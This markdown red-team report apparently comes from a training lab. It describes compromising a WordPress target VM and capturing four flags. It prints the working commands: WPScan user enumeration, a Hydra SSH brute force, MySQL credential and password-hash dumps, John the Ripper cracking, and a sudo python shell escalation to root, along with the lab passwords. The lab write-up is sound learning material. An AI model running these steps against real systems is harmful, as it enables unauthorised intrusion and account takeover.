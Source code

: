 # Red Team: Summary of Operations

## Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation

### Exposed Services

Nmap scan results for each machine reveal the below services and OS details:

![OffensiveReport_nmap_scan_1.png](Images/OffensiveReport_nmap_scan_1.png "nmap Scan")

This scan identifies the services below as potential points of entry:
- Target 1
  - SSH (port 22)
  - HTTP (port 80)
  - Rpcbind (port 111)
  - Netbios-ssn (ports 139 and 445)

The following vulnerabilities were identified on each target:
- Target 1
  - User Enumeration (Wordpress Website)
  - Weak password/usernames (CWE-521)
  - Brute Force SSH to gain access to system
  - Unsalted password hash and privilege escalation with Python (CWE-328)

### Exploitation

The Red Team was able to penetrate `Target 1` and retrieve the following confidential data:
- Target 1
  - `flag1.txt`: {b9bbcb33e11b80be759c4e844862482d
    - **Exploit Used**
      - - WPScan to enumerate users on the Target1 Wordpress website. - $ wpscan --url 192.168.1.110/wordpress - $ wpscan --url 192.168.1.110 --enumerate -u

![OffensiveReport_flag1_totalimage_2.png](Images/OffensiveReport_flag1_totalimage_2.png "flag1 Image 1")

![OffensiveReport_flag1_totalimage_3.png](Images/OffensiveReport_flag1_totalimage_3.png "flag1 Image 2")
  
  - It was known the user's password was weak and obvious. It was guessed before any commands were used but for practice, we used Hydra to crack Michael's password.
  - Command: hydra -l michael -p /usr/sahre/wordlists/rockyou.txt -vV 192.16.1.110 -t 4 ssh

![OffensiveReport_flag1_totalimage_4.png](Images/OffensiveReport_flag1_totalimage_4.png "flag1 Image 3")

  - flag1 was found in /var/www/html folder after searching through each file in the directory. The flag1 was found in the service.html in an HTML comment near the bottom of the HTML file.

![OffensiveReport_flag1_totalimage_5.png](Images/OffensiveReport_flag1_totalimage_5.png "flag1 Image 4")

  - `flag2.txt`: {fc3fd58dcdad9ab23faca6e9a36e581c}
    - **Exploit Used**
      - Manaully brute forced Michael's password, and also used Hydra for good measure. His password (password: michael) was weak and easily guessable. This allowed us to SSH into his machine and find flag2. The steps to find the second flag were similar to when we found flag1.
      - flag2 was discovered in /var/www next to a directory named "html"
        - Commands:
          - ssh michael@192.168.1.110
          - password: michael
          - cd /var/www
          - ls -l
          - cat flag2.txt

![OffensiveReport_flag2_totalimage_6.png](Images/OffensiveReport_flag2_totalimage_6.png "flag2 Image 1")

  - `flag3.txt`: {afc01ab56b50591e7dccf93122770cd2}
    - **Exploit Used**
      - Same exploits as flag1 and flag2.
      - Once in Michael's system, we captured flag3.txt by accessing the MYSQL database
      - After searching through wp-config.php, we had access to his MYSQL database login credentials and were able to further explore the database.

![OffensiveReport_flag3_totalimage_7.png](Images/OffensiveReport_flag3_totalimage_7.png "flag3 Image 1")

![OffensiveReport_flag3_totalimage_8.png](Images/OffensiveReport_flag3_totalimage_8.png "flag3 Image 2")

![OffensiveReport_flag3_totalimage_9.png](Images/OffensiveReport_flag3_totalimage_9.png "flag3 Image 3")

      - Commands:
        - mysql -u root -p
        - We were then prompted for a password, which is 'R@v3nSecurity'
        - show databases;
        - use wordpress;
        - select * from wp_posts


  - `flag4.txt`: {715dea6c055b9fe3337544932f2941ce}
    - **Exploit Used**
      - Unsalted hash and privilege escalation with Python command.
      - For flag4, we cracked user Steven's password using John the Ripper, and looked at Stevens privileges using "sudo -l" ti find how we can escalte our privilege to root.
      - After getting access to the MYSQL database, we found the user's password hashes in the wp_users table. The password hashes were saved on the Kali machine in "wp_hashes.txt" for later use.
      - Commands:
      - mysql -u root -p
      - password: R@v3nSecurity
      - show databases
      - use wordpress;
      - show tables;
      - select * from wp_users;

![OffensiveReport_flag4_totalimage_10.png](Images/OffensiveReport_flag4_totalimage_10.png "flag4 Image 1")

    - The wp_hashes.txt file containing Steven's password hashes was cracked using John the Ripper. 
    - Command:
      - john wp_hashes.txt
      
![OffensiveReport_flag4_totalimage_11.png](Images/OffensiveReport_flag4_totalimage_11.png "flag4 Image 2")

    - After getting Stevens password, we could now SSH into the server as Steven.
       - Commands: 
         - ssh steven@192.168.1.110
         - password: pink84
         - sudo -l
         - Sudo python -c ‘import pty;pty.spawn(“/bin/bash”)’
    - This Python command allowed us to be the "root@target1" user (Steven).
       - ls
       - cat flag4.txt

![OffensiveReport_flag4_totalimage_12.png](Images/OffensiveReport_flag4_totalimage_12.png "flag4 Image 3")
